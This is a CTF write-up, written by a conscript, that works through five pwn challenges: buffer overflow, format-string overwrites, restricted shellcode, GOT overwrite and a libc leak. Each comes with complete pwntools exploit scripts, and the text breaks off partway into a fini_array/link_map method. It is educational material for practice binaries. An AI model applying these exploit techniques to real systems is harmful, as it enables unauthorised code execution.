









Currently serving conscription. These are writeups of challenges that I solved on a tablet from my army camp 👍👍


## ret2win (100 pts) - 266 solves
---

>
> Jumping around in memory is hard. I'll give you some help so that you can pwn this!
> Author: Eth007
>
> [vuln](attachments/pwn/ret2win/vuln) [vuln.c](attachments/pwn/ret2win/vuln.c)
>

### Analysis

```c
#include <stdio.h>
#include <stdlib.h>

int win() {
  FILE *fp;
  char flag[255];
  fp = fopen("flag.txt", "r");
  fgets(flag, 255, fp);
  puts(flag);
}

char **return_address;

int main() {
  char buf[16];
  return_address = buf+24;

  setvbuf(stdout,NULL,2,0);
  setvbuf(stdin,NULL,2,0);

  puts("Welcome to ret2win!");
  puts("Right now I'm going to read in input.");
  puts("Can you overwrite the return address?");

  gets(buf);

  printf("Returning to %p...\n", *return_address);
}

```

Looking at the source code, we can see that the program takes in an input with `gets(buf)`.


If we look at the `gets()` man page, 



we see that the `gets()` function is vulnerable to buffer overflow as it does not limit the user input. 


```
┌────────────────────────────────────────────────┐
│                                                │   │
│                                                │   │
│                                                │   │
│                                                │   │
│                     buf[16]                    │   │
│                                                │   │
│                                                │   │
│                                                │   │
├────────────────────────────────────────────────┤   │
│                                                │   │  input goes
│                                                │   │  downwards
│                 saved rbp [8]                  │   │
│                                                │   │
│                                                │   │
├────────────────────────────────────────────────┤   │
│                                                │   │
│                                                │   │
│              return address [8]                │   │
│                                                │   │
│                                                │   │
└────────────────────────────────────────────────┘   ▼
```

Hence through overflowing our input buffer which only stores **16** bytes, we can write into the **saved rbp** and eventually the **return address** which the program will return to when the main function returns.

If we overflow the return address with win, this will essentially call **win** and give us a shell!!

### Exploit Script

```python
from pwn import * # import the pwntools module to interact with program

p = process('./vuln') # run the program

# you can get this through running the
# 
# $ nm vuln
# ...
# 00000000004011d6 T win
# 
# or get it via gdb
# 
# $ gdb vuln
# (gdb) x win
# 0x4011d6 <win>: 0xfa1e0ff3
#
WIN = 0x4011d6

payload = b"A"*16 # fill up buf[16]
payload += b"A"*8 # fill up saved rbp [8]
payload += p64(WIN) # write win to return address, remember to pack address in 64 bit little endian

p.sendline(payload) # send payload to program

p.interactive() # get flag!!
```

## bof (100 pts) - 190 solves
---

>
> Can you bof me?
> Author: Eth007
> 
> [bof](attachments/pwn/bof/bof) [bof.c](attachments/pwn/bof/bof.c) 
>

### Analysis

```c
#include <stdio.h>
#include <stdlib.h>

struct string {
  char buf[64];
  int check;
};

char temp[1337];


int main() {
  struct string str;

  setvbuf(stdout,NULL,2,0);
  setvbuf(stdin,NULL,2,0);

  str.check = 0xdeadbeef;
  puts("Enter your string into my buffer:");
  fgets(temp, 5, stdin);                        // input of 5 bytes
  sprintf(str.buf, temp);                       // output of format string is written to str.buf
                                                // we need to write >64 chars into str.buf to overflow check

  if (str.check != 0xdeadbeef) {
    system("cat flag.txt");
  }
}
```

The program takes in **5** bytes of input from the user into a variable `temp`.

The contents of `temp` are then read into `str.buf` through **sprintf**.

Finally, the program gives a flag if the value of `str.check` was modified.

Technically, if we can only input **5** bytes into buf, we will not be able to overflow check.

However, you may have noticed but **sprintf** is vulnerable to a format string attack.

Here's the secure way to have used **sprintf**:

```c
sprintf(str.buf, "%s", temp);
```

However, due to the **lack of a format string** in the code, we can maliciously input format strings of our own which would be interpreted in the same way by the computer.

Hence, if we input **%99c** into the program, the program would copy **99** one byte characters from `temp` to `str.buf`, and hence overflowing `str.check` and giving us the flag.

### Exploit Script

```python
from pwn import * # import pwntools

p = process('./bof') # run the program

p.sendline("%90c") # overflow str.check

p.interactive() # get flag!
```

## bellcode (390 pts) - 37 solves
---

>
> Do you like Taco Bell?
> Author: Eth007
> 
> [bellcode](attachments/belcode/bellcode)
>

### Analysis
```c
int main()
{

  // init functions -- can ignore
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);

  // map 0x2000 sized memory at 0xFAC300 with rwx permissions
  mmap((void *)0xFAC300, 0x2000uLL, 7, 33, -1, 0LL);
  
  puts("What's your shellcode?");

  // get user input into mapped memory
  fgets((char *)0xFAC300, 4096, stdin);
  
  // for each character in user input, ensure that it is divisible by 5
  for ( int i = 0xFAC300; i <= 0xFAD2FF; ++i )
  {
    if ( *(_BYTE *)i % 5u )
    {
      puts("Seems that you tried to escape. Try harder™.");
      exit(-1);
    }
  }
  puts("OK. Running your shellcode now!");
  // run shellcode!!
  MEMORY[0xFAC300]();
  return 0;
}
```

As we can see from the commented code, this is a shellcoding challenge that requires us to give shellcode bytes that are divisible by **5**.

When we think of shellcode, we think of making syscalls to get our shell.

Ideally, our final shellcode should look like this:

```python
rax = 59 # execve syscall
*rdi = "/bin/sh\x00"
rsi = 0
rdx = 0
syscall
```

Let's look at the state of the stack and registers right before the shellcode runs:



As we can see, we have our registers set to

```python
# semi-ideal conditions for a read syscall

rax = 0x0
rdi = 0x7ffff7fa89b0 # fd <- should be 0 (stdin)
rsi = 0x1 # buf <- should be somewhere in our mmapped memory
rdx = 0xfac300
```

With **rax=0** and **rdx=0xfac300**, this is semi-ideal for a **read** syscall!!

With a **read** syscall, we can ideally take in a second input without any restrictions and run it :)

Let's look at what other instructions we can use in our shellcode to help us set up our registers.

```python
# coding: utf-8
from pwn import *

context.arch = 'amd64'

for i in range(0, 0xff, 5):
    print(disasm(i.to_bytes(1, 'little')))

"""
Truncated output:
...
   0:   50                      push   rax
   0:   55                      push   rbp
   0:   5a                      pop    rdx
   0:   5f                      pop    rdi
...
"""
```

Since **rax = 0x0**, we can set **rdi = 0x0** by doing a

```
push rax
pop rdi
```

Finally, after playing around in [defuse.ca](https://defuse.ca/online-x86-assembler.htm) we can set **rsi** with a simple 

```
mov esi, 0xfac300 # or any other address at multiples of 5
```

Finally and most importantly, we are able to call **syscall** since it has an opcode that is also a multiple of 5.


Let's start crafting stage 1 of our exploit!

```python
from pwn import *

context.arch = 'amd64'

p = process('./bellcode')

shellcode = asm("""
push rax
pop rdi
mov esi, 0xfac300
syscall
""")

p.sendline(shellcode)

p.sendline(b"A"*100) # try to send something 

p.interactive()
```

If we run this in gdb, 



Success! We see our shellcode being run here.

After our shellcode finishes running, we **SIGSEGV** at `0xfac309`. 

However, thanks to our stage 2 **read**, we are able to write a normal shellcode to pop a shell at that point. For this second shellcode, for convenience sake, we will just use **pwnlib.shellcraft**.

### Exploit Script

```python
from pwn import *

context.arch = 'amd64' # tell pwntools to assemble our shellcode in x64

p = process('./bellcode')

# stage 1 shellcode to read 0xfac300 bytes into 0xfac300
shellcode = asm("""
push rax
pop rdi
mov esi, 0xfac300
syscall
""")

p.sendline(shellcode)

# stage 2 shellcode to place our shellcode to pop a shell on the stack
p.sendline(b"A"*len(shellcode) + asm(shellcraft.sh()))

p.interactive()
```

## golf (428 pts) - 30 solves
---

>
> Some challenges provide source code to make life easier for beginners. Others provide it because reversing the program would be too time consuming for the CTF. Still others, like this one, do it just for the memes.
> Author: Eth007
> 
> [golf](attachments/pwn/belcode/golf/golf)  [golf.c](attachments/pwn/belcode/golf/golf.c)
> 

### Analysis

```
[*] '/home/elmo/CTF/Archives/0722-ictf2022/pwn/golf/golf'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)

```

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

__attribute__((constructor))

_(){setvbuf /* well the eyes didn't work out */
(stdout,0,2
,0);setvbuf
(stdin,0,2,
0);setvbuf(
stderr,0,2,
0)       ;}

main( ){ char  /* sus */
aa[       256
];;       ;;;
fgets(aa,256,
stdin ) ; if(
strlen (aa) <
11)printf(aa)
; else ; exit
(00       );}

/* i tried :sob: */
```

If we reformat the code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

__attribute__((constructor))

_(){
setvbuf(stdout,0,2,0);
setvbuf(stdin,0,2,0);
setvbuf(stderr,0,2,0);
}

main()
{ 
char aa[256];
_();
fgets(aa,256,stdin ); // get 256 bytes of input
if(strlen(aa) < 11) { // trigger fmt str vuln if strlen(aa) < 11
	printf(aa); 
} else {
	exit(0); // else exit after getting input
} 
}

```

We can see that we have a program vulnerable to format string once again.

If we look at the `strlen()` man page, we see that

> The strlen() function calculates the length of the string pointed to by s, excluding the terminating null byte ('\0').

This means that we can input 10 characters, input a null byte _(to pass the strlen check)_, and then input other characters and still get our first 10 characters printed.

However, this means that our format string has to be **10 characters or shorter** which is a big restriction as we only can use around 2-3 format strings.

At first glance, we could craft a payload like this to arbitrarily write into any address

```
                 10 bytes
◄────────────────────────────────────────►
┌────────────────────┬───────────────────┬──────┬─────────────────────┐
│                    │                   │      │                     │
│                    │                   │      │                     │
│        %Xc         │       %Y$n        │ \x00 │     address Z       │
│                    │                   │      │                     │
└────────────────────┴──────────┬────────┴──────┴─────────────────────┘
                                │                        ▲
                                │                        │
                                └────────────────────────┘
                                   write X bytes into Z
                                 where Z is pointed to by
                                   offset Y on the stack
```

However, consider the following conditions

```python
if len(str(Y)) == 1: # if offset Y is one digit
	X = 10 - 4 = 6   # X can only be 6-2 digit
	# len(%XXXXc%Y$n) == 10
    # which means
    X < 10000

and if len(str(Y)) == 2:
	X = 10 - 5 = 5 - 2 = 3 # X can only be 3 digits
	X < 1000

# keep in mind that X will overwrite all 8 bytes pointed at that address
# and 10000 (0x2710) is insufficient to overflow to any useful number


```

which means we can only write very small numbers and we wouldnt be able to do anything.

This means that we have to come up with any idea.

If we do some research and look at this [link](https://cplusplus.com/reference/cstdio/printf/), we see that printf takes in a width (\*) flag which prints the number of characters that it is pointed to.

With that in mind, we can reformat our exploit to the following:

```
                 10 bytes
►────────────────────────────────────────►
┌────────────────────┼───────────────────┬──────┬─────────────────────┬──────────────────────┐
│                    │                   │      │                     │                      │
│                    │                   │      │                     │                      │
│      %*(Y+1)$c     │       %Y$n        │ \x00 │     address Z       │        value X       │
│                    │                   │      │                     │                      │
└─────────┬──────────┴──────────┬────────┴──────┴─────────────────────┴──────────────────────┘
          │                     │                        ▲                        ▲
          │                     │                        │                        │
          │                     └────────────────────────┘                        │
          │                        write X bytes into Z                           │
          │                      where Z is pointed to by                         │
          │                        offset Y on the stack                          │
          │                                                                       │
          │                                                                       │
          │                                                                       │
          └───────────────────────────────────────────────────────────────────────┘

                                 print $X amount of characters
```

With this, we can right any amount of bytes we want into any given address! 

The only constraints we have left is that we are restricted to only **one write**, which is highly limited given that there is no win or shell function in the binary.

We can overcome that by overwriting `exit@plt.got` with `main` so that the program loops endlessly and gives us unlimited writes.

```python

from pwn import *

context.binary = elf = ELF('./golf')
p = process('./golf')

payload = b'%*8$c' + b'%9$n'
assert len(payload) <= 10 # ensure format string does not exceed 10 characters

payload += b'\x00' * (16-len(payload)) # pad payload so format specifiers are pointed correctly
payload += p64(0x40121f) # main address
payload += p64(elf.got.exit) # exit

p.sendline(payload)
p.interactive()
```

With this we are able to get unlimited amount of writes. 

Next, we want to think about how to get a shell. If we look at the source code, we could ideally overwrite `strlen@plt.got` with `system` then send **/bin/sh** to get a shell.

However we first need to leak our libc address. With trial and error, we can find the offset of the address of **__libc_start_main+243** and use it to find the remote libc and calculate our libc base.

Using [libc-database](https://github.com/niklasb/libc-database) we can find the version of the remote libc. 



We then patch our binary with the libc and calculate our libc base.

```python
from pwn import *
import re

libc = ELF('./libc.so.6')
context.binary = elf = ELF('./golf')
p = process('./golf')

payload = b'%*8$c' + b'%9$n'
assert len(payload) <= 10 # ensure format string does not exceed 10 characters

payload += b'\x00' * (16-len(payload)) # pad payload so format specifiers are pointed correctly
payload += p64(0x40121f) # main address
payload += p64(elf.got.exit) # exit

p.sendline(payload)

p.sendline("%77$p")
leak = int(re.findall(b'(0x\w+)', p.recvline())[0], 16) 
libc.address = leak - 243 - libc.sym.__libc_start_main

info(f"libc base @ {libc.address:#x}")

p.interactive()
```

Finally, we have to overwrite **strlen** address with **system** address. 

However, we cannot use the same method we used to overwrite the **exit.got** address because libc address are generally much higher up `i.e. 0x7ffff00000` range and it would take too much time to write that amount of byte into the **strlen.got** address.

This means that we need to do a partial overwrite with the **$hn** positional write which only modifies 2 bytes.

However if you look at the address in **strlen@got.plt** and the address in **system**, we notice that they differ by 3 bytes which is unfeasible for us to write to.



However if we look inside system,



We notice that it calls **do_system()** internally which ends with **0xd0**, just like strlen.

The two of them only differ by 2 bytes and it is totally possible for us to overwrite **strlen@got.plt** with **do_system()** which is pretty much just the internal call for system.

With that we can craft our full exploit script.

### Final Exploit Script

```python

from pwn import *
import re

libc = ELF('./libc.so.6')
context.binary = elf = ELF('./golf')
p = process('./golf')

payload = b'%*8$c' + b'%9$n'
assert len(payload) <= 10 # ensure format string does not exceed 10 characters

payload += b'\x00' * (16-len(payload)) # pad payload so format specifiers are pointed correctly
payload += p64(0x40121f) # main address
payload += p64(elf.got.exit) # exit

p.sendline(payload)

p.sendline("%77$p")
leak = int(re.findall(b'(0x\w+)', p.recvline())[0], 16) 
libc.address = leak - 243 - libc.sym.__libc_start_main

info(f"libc base @ {libc.address:#x}")

payload = b'%*8$c' + b'%9$hn'
assert len(payload) <= 10
payload += b'\x00' * (16-len(payload))

payload += p64(((libc.sym.system-1472) & 0xFFFF0) >> 8)
payload += p64(elf.got.strlen+1)

p.sendline(payload)
p.sendline(b'/bin/sh')

p.interactive()
```

However for some reason, out of the 4 bits that we attempt to modify, only the last 3 bits are changed to our liking. 

Nevertheless, this just means that we have to brute force 1 bit, which would give us a favourable likelihood of 1/16 to pop a shell! 

## Format String Fun (474 pts) - 18 solves
---

>
> One format string to rule them all, one format string to find them. One format string to bring them all, and in the darkness bind them.
> Author: Eth007
>
> [fmt_fun](attachments/pwn/fmt_string_fun/fmt_fun) [libc.so.6](attachments/pwn/fmt_string_fun/libc.so.6)
>

### Analysis

```c
int main()
{
  // ignore setvbuf
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  
  puts("Welcome to Format Fun!");
  puts("I'll print one, AND ONLY ONE, string for you.");
  puts("Enter your string below:");

  // 400 bytes of input vulnerable to format string attack
  fgets(buf, 400, stdin);
  printf(buf);
  return 0;
}

int win()
{
  return system("cat flag.txt");
}
```

```
[*] '/home/elmo/CTF/Archives/0722-ictf2022/pwn/fmt_string_fun/fmt_fun'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
```

Looking at the source code, we have a 400 byte input vulnerable to format string attack and a win function that reads us the flag.

However, there is **FULL RELRO** which means that we are unable to modify GOT address to point to **win** which would be trivial.

Let's leak some values with **%p** and  look at the stack at `vfprintf_internal` at `printf+170` to see what values we have on the stack and how it may be of use to us.



At offset 9 of our format string, we have a pointer to another address on the stack, for simplicity sake, we will picture it like this:

```
Simplified Stack
-----------------
Address W: return address
Address X: Address Y -> Address Z
Address Y: Address Z
```

Where offset 9 of our format string points to address X.

If we are able to use the format string pointing to address X to **change value inside Address Y** __(address Z)__ to **address W**, our stack will look like this:

```
Simplified Stack
-----------------
Address W: return address
Address X: Address Y -> Address W
Address Y: Address W -> Return Address
```

and then we can use a format string pointing to address Y to **change value inside Address W**, __(return address)__ to **win**, which will let the program return to win and give us the flag.

However, it is rather tricky as we have to do all of this in one shot. 

We have to take note that we cannot use more than one positional write at a time, as it would create a shadow stack and prevent our values from being modified.

### Exploit Script

```python
# coding: utf-8
from pwn import *
import re

count = 0

with log.progress("Brute forcing 1/4096 chance") as pro:
    while True:
        with context.quiet:
            context.binary = elf = ELF('./fmt_fun')
            if args.REMOTE:
                p = remote('fmt-fun.chal.imaginaryctf.org', 1337)
            else:
                p = process('./fmt_fun')


        p.clean()
        p.sendline(("%c"*7 + f"%{0x02c1}c" + "%hn" + f"%{elf.sym.win-0x02c3}c%37$n").encode())

        with context.quiet:
            y = p.recvall().strip()
            x = b'ictf' in y
            p.close()

        if x:
            with open("flag.txt", "wb") as f:
               f.write(y)

            success("Flag found")
            break
        else:
            count += 1
            pro.status(f"{count}\n")

```

Do take note that because of ASLR, we will have to brute force 3 bits which only gives us a low probability of **1/4096** for our exploit to work.

Nevertheless, after running it for around **1000** times, we get our flag. 

### Alternative Solution

After the competition has ended, the challenge author mentioned that there is a way to one shot the program with certainty, by overwritng the link\_map->l\_addr to offset fini\_array to point to win.

In the spirit of learning, I decided to do some research and come up with a more reliable exploit :)

#### Understanding Dynamic Resolution

In order to understand the exploit, we first need to know about **link\_maps**.

>
> link_maps are essentially small data structures that hold a couple pointers to some meta-data needed for completing some dynamic linking action.
>

If we look at the definition of the struct link\_ map in this [link](https://code.woboq.org/userspace/glibc/include/link.h.html#link_map)

```c
struct link_map
  {
    ElfW(Addr) l_addr;                /* Difference between the address in the ELF
                                   file and the addresses in memory.  */
        // truncated
  }
```

we see that it contains the **l_addr** value which is essentially the **offset between memory addresses and addresses in the binary**.

_the rest of the values in link_map will not be relevant for us in this writeup._

When we run our program, we will call **constructor** functions to initialize the program.

When the program ends, we will call **destructor** functions to destroy/terminate the program.

*constructors/destructors can be both user defined or in-built*

These **constructor** and **destructor** functions are contained in the **init_array** and **fini_array** section of the ELF binary.

For the sake of this writeup, we will only mention **destructors** and **fini_array** from here on.


Now that we have introduced **destructors** and **link_maps**, we can introduce the function wrapper to resolve the destructors and call the destructors.

```c
void
_dl_fini (void)
{
  /* Lots of fun ahead.  We have to call the destructors for all still
     loaded objects, in all namespaces.  The problem is that the ELF
     specification now demands that dependencies between the modules
     are taken into account.  I.e., the destructor for a module is
     called before the ones for any of its dependencies.
     To make things more complicated, we cannot simply use the reverse
     order of the constructors.  Since the user might have loaded objects     using `dlopen' there are possibly several other modules with its
     dependencies to be taken into account.  Therefore we have to start
     determining the order of the modules once again from the beginning.
 */
        // CODE TRUNCATED
     /* 'maps' now contains the objects in the right order.  Now
        call the destructors.  We have to process this array from
        the front.  */
     for (i = 0; i < nmaps; ++i)
       {
         struct link_map *l = maps[i];
         if (l->l_init_called)
           {
             /* Make sure nothing happens if we are called twice.  */
             l->l_init_called = 0;
             /* Is there a destructor function?  */
             if (l->l_info[DT_FINI_ARRAY] != NULL
                 || l->l_info[DT_FINI] != NULL)
               {
                 /* When debugging print a message first.  */
                 if (__builtin_expect (GLRO(dl_debug_mask)
                                       & DL_DEBUG_IMPCALLS, 0))
                   _dl_debug_printf ("\ncalling fini: %s [%lu]\n\n",
                                     DSO_FILENAME (l->l_name),
                                     ns);
                 /* First see whether an array is given.  */
                 if (l->l_info[DT_FINI_ARRAY] != NULL)
                   {
                     ElfW(Addr) *array =
                                                // resolve destructor address
                       (ElfW(Addr) *) (l->l_addr
                                       + l->l_info[DT_FINI_ARRAY]->d_un.d_ptr);
                                                // count number of addresses
                     unsigned int i = (l->l_info[DT_FINI_ARRAYSZ]->d_un.d_val
                                       / sizeof (ElfW(Addr)));
                                        //call destructors
                                        while (i-- > 0)
                            ((fini_t) array[i]) ();
                    }
                                        // TRUNCTATED
```

If we look at the [source code](https://code.woboq.org/userspace/glibc/elf/dl-fini.c.html#_dl_fini) for **_dl_fini**, we see that it does a bunch of sanity checks, and then call our *destructors*.

Most importantly, note that

```c
// resolve fini_array addresses
ElfW(Addr) *array = (ElfW(Addr) *) (l->l_addr + l->l_info[DT_FINI_ARRAY]->d_un.d_ptr);
// call destructors in fini_array
((fini_t) array[i])();
```

We use **l_addr** value in our **link_map** to offset `DT_FINI_ARRAY` to
resolve **fini_array** address and call the destructor functions inside.

#### Exploit Methodology

```c
char buf[400];
int main()
{
  // ignore setvbuf
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  puts("Welcome to Format Fun!");
  puts("I'll print one, AND ONLY ONE, string for you.");
  puts("Enter your string below:");
  // 400 bytes of input vulnerable to format string attack
  fgets(buf, 400, stdin);
  printf(buf);
  return 0;
}
int win()
{
  return system("cat flag.txt");
}
```

We can use **readelf** to obtain the addrsss of the **fini_array** in our program

```
❯ readelf -S fmt_fun
                                        There are 30 section headers, starting at offset 0x4a30:
Section Headers:
                                          [Nr] Name              Type
         Address           Offset
              Size              EntSize          Flags  Link  Info  Align  ...
  [21] .fini_array       FINI_ARRAY       0000000000403db8  00003db8
       0000000000000008  0000000000000008  WA       0     0     8
```
As we can see, it lies at a low address of **0x403db8**, before our **.bss** section.
If we are able to modify the **l_addr**, to offset **fini_array** to our
input in the **.bss**, we can point it to an arbitrary address that we write in our **buf** and make the program **call it as a destructor**.
However, how do we modify **l_addr** with nothing more than a format string vulnerability?
The **l_addr** is actually already placed onto the stack by the linker even before the program is run, and we can access it with our format string at the bottom of the stack.

#### It all comes together...

Now let's try to piece everything together in GDB.
Let's set a breakpoint at our destructor function inside of our _fini_array at **0x403db8** as seen above.

```c
gef➤  break **0x403db8
Breakpoint 1 at 0x401180
```

When we run our program and hit the breakpoint, we can see the stacktrace at that point.

```c
─────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x401180 → __do_global_dtors_aux()
                                                 [#1] 0x7ffff7fe0f5b → mov rdx, r14
[#2] 0x7ffff7e1ea27 → jmp 0x7ffff7e1e99a
[#3] 0x7ffff7e1ebe0 → exit()
[#4] 0x7ffff7dfc0ba → __libc_start_main()
                                                 [#5] 0x4010fe → _start()──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

The function that calls the destructor function is `_dl_fini`, however in our debugger, it doesn't name the function but that's okay.
We will examine the instructions prior to calling our destructor function in GDB.

```c
gef➤  x/20i 0x7ffff7fe0f5b-48
   0x7ffff7fe0f2b:      mov    r14,QWORD PTR [rax+0x8]
   0x7ffff7fe0f2f:      mov    rax,QWORD PTR [r15+0x120]
   0x7ffff7fe0f36:      mov    rsi,QWORD PTR [r15]                      // move link_map->l_addr into rsi
   0x7ffff7fe0f39:      mov    rdx,QWORD PTR [rax+0x8]
   0x7ffff7fe0f3d:      add    rsi,r14                                  // add l_addr to fini_array
   0x7ffff7fe0f40:      shr    rdx,0x3
   0x7ffff7fe0f44:      mov    QWORD PTR [rbp-0x38],rsi
   0x7ffff7fe0f48:      lea    eax,[rdx-0x1]
   0x7ffff7fe0f4b:      lea    r14,[rsi+rax*8]
   0x7ffff7fe0f4f:      test   edx,edx
   0x7ffff7fe0f51:      je     0x7ffff7fe0f68
   0x7ffff7fe0f53:      nop    DWORD PTR [rax+rax*1+0x0]
   0x7ffff7fe0f58:      call   QWORD PTR [r14]                          // call destructor pointed to by fini_array + l_addr
   0x7ffff7fe0f5b:      mov    rdx,r14
```

Let's break at **0x7ffff7fe0f36** to see it in action.

```
───────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7ffff7fe0f25                  jne    0x7ffff7fe0fd0
   0x7ffff7fe0f2b                  mov    r14, QWORD PTR [rax+0x8]
   0x7ffff7fe0f2f                  mov    rax, QWORD PTR [r15+0x120]
●→ 0x7ffff7fe0f36                  mov    rsi, QWORD PTR [r15]
   0x7ffff7fe0f39                  mov    rdx, QWORD PTR [rax+0x8]
   0x7ffff7fe0f3d                  add    rsi, r14
